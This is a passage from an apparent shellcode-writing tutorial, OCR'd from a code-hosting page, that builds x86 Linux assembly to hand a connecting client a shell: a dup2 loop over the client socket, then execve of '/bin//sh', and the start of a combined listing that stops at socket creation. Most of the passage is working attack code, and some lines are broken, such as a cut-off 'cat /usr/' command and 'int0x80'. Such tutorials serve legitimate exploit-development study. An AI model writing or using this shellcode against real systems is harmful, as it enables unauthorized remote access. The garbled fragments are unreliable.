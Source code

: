 Grab the syscall number for dup2:
```c
cat /usr/
```
There is a conditional jump in assembly called jns which means, as I understand it, "Jump No Sign".  Which will take the jump until the Sign Flag is set.  Easier description.. Take the jump until the value becomes negative.\
This conditional jump is perfect for us because it will include 0 in our loop before exiting.
```asm
        mov ebx, eax    ; client_socket arg
        xor ecx, ecx    ; zero ecx avoiding nulls
        mov cl, 0x2     ; setup counter
dup:
        mov al, 0x3f
        int 0x80        ; dup2(client_socket, [ecx])
        dec ecx
        jns dup
```
### Execute a shell
Now we just need to execute /bin/sh with execve to give the client the shell.\
The call will be:\
execve("/bin/sh", NULL, NULL);\
We have to null terminate the string for "/bin/sh" so we will use the stack to assign it to the proper register.\
EDX is still 0'd out so we can keep it the same and also use it to make ECX 0.
Note that, for ease of writing, we want 8 characters for our string.  We can do "/bin//sh" to effectively give the same command and have the proper length.  We also want to reverse the string, split it in to 4 character sections and push it on to the stack in hex.
```asm
push edx  ; null terminate the string
push 0x68732f2f ; push hs//
push 0x6e69622f ; push nib/

mov ebx, esp    ; move null terminated string into register

mov ecx, edx    ; 0x0
mov al, 0xB     ; syscall execve
int0x80         ; execve("/bin/sh", NULL, NULL);
```
### Putting It All Together
The final product is:
```asm
global _start

section .text

_start:
	
	; clear registers
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx


	;***************;
	; create socket ;
	;***************;


	; 0x66 for socketcall
	mov al, 0x66

	;0x1 for socket
```